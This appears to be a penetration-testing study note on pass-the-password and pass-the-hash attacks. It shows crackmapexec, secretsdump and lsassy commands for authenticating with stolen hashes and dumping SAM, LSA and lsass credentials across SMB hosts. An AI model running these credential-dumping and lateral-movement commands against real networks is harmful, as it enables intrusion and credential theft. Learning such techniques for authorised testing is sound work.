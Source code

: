 What are pass attacks? (Pass the Password/Pass the Hash)

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

![[Pasted image 20240828172033.png]]

We will primarily use a tool called crackmapexec whose syntax will look something like this:

```
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <password>
```

![[Pasted image 20240828172250.png]]

Lets say we have some hashes that we got from metasploit after running hashdump

![[Pasted image 20240828172414.png]]

 Or we can use a tool called secretsdump like so:

```
secretsdump.py <DC>/<user>:<password> @ <ip_of_DC>
```

We can then use crackmapexec to pass the hash as well by this command:

```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth
```

![[Pasted image 20240828172648.png]]

We can additionally use crackmapexec to dump valuable data:

```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam (or --shares, --lsa)
```

![[Pasted image 20240828172805.png]]

It even has built in modules...

```
crackmapexec smb -L
```

![[Pasted image 20240828172932.png]]

For example, we can dump the lsass with lsassy

```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy
```

![[Pasted image 20240828173043.png]]

There is also a database for crackmapexec which tells you how many attempts a user has made to login and stuff

```
cmedb
```

![[Pasted image 20240828173156.png]]

